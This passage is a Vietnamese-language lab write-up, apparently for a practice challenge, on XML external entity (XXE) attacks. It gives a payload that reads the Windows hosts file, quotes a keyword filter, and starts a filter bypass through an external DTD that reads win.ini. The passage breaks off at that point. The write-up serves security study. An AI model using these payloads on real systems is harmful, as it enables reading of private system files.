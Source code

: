 Ở level đầu tiên này nó sẽ chỉ là chức năng parser XML và return kết quả về với level này ta thấy sẽ không hề có lớp filter nào cả.

Ta sẽ test thử payload:

```xml 
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///c:/windows/system32/drivers/etc/hosts">
]>
<data>&xxe;</data>
```

`<?xml version="1.0"?>`: Khai báo phiên bản XML.

`<!DOCTYPE data [...]>`: Khai báo DTD (Document Type Definition), cho phép định nghĩa các thực thể (entities).

`<!ENTITY xxe SYSTEM "file:///...">`: Định nghĩa một thực thể bên ngoài (external entity) tên là xxe, trỏ đến file hệ thống hosts trên Windows.

`<data>&xxe;</data>`: Gọi thực thể xxe, khiến trình phân tích XML cố gắng đọc nội dung file hosts và chèn vào vị trí này.

![image](https://hackmd.io/_uploads/B1xy36mNngx.png)

Thành công đọc được file `hosts` bằng cách gọi System với file protocol.

#### Level 2:

```java 
 public String parseLevel2(String xml) {
        if (xml.toLowerCase().contains("system") || xml.toLowerCase().contains("file://")) {
            return "Malicious input detected by filter!";
        }
        return parseLevel1(xml);
    }
```

Đến với level 2 có thể thấy bây giờ đã có lớp filter `file` protocol lại cùng với đó ta cũng sẽ không thể gọi `system` được nữa nếu trong câu XML có 2 cái trên sẽ bị trả về `Malicious input detected by filter!`.

Ở đây thì payload level 1 đã không còn tác dụng nữa nên ta sẽ tìm hướng đi khác.

Sau khi tìm hiểu thì ta hoàn toàn có thể sử dụng cách tạo `external dtd` để bypass được lớp filter kia.

![image](https://hackmd.io/_uploads/H1tX5EUhll.png)

Tạo file `evil_v2.dtd` với nội dung:

```xml 
<!ENTITY x SYSTEM "file:///C:/Windows/win.ini">
```

![image](https://hackmd.io/_uploads/Bk9U9ELnll.png)
